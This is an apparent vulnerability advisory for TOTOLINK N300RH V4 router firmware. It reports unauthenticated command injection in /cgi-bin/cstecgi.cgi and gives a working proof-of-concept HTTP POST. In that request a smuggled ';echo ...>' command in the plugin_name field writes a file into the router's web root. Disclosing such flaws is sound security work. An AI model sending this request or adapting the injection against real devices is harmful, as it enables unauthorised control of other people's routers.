


# Information


**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [N300RH_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/188.html)

**Affected firmware version:** V6.1c.1390_B20191101

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html))

# Overview

There is a serious command execution vulnerability in TOTOLINK N300RH V4. The vulnerability can be triggered by the route /cgi-bin/cstecgi.cgi. An attacker can perform a remote command execution attack by sending an HTTP POST  setting/setUnloadUserData  request without authorization.

# Vulnerability details


There is command splicing here



# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/index.htm
Connection: close
Cookie: languageType=cn; productName=N300RH%20v4; fmVersion=V6.1c.1390
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 01 Nov 2019 08:02:33 GMT
If-None-Match: "4271978973"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

{"topicurl":"setting/setUnloadUserData",
"plugin_name":";echo 'this is second test'> /usr/lib/lighttpd/web/2.txt;"
}
```

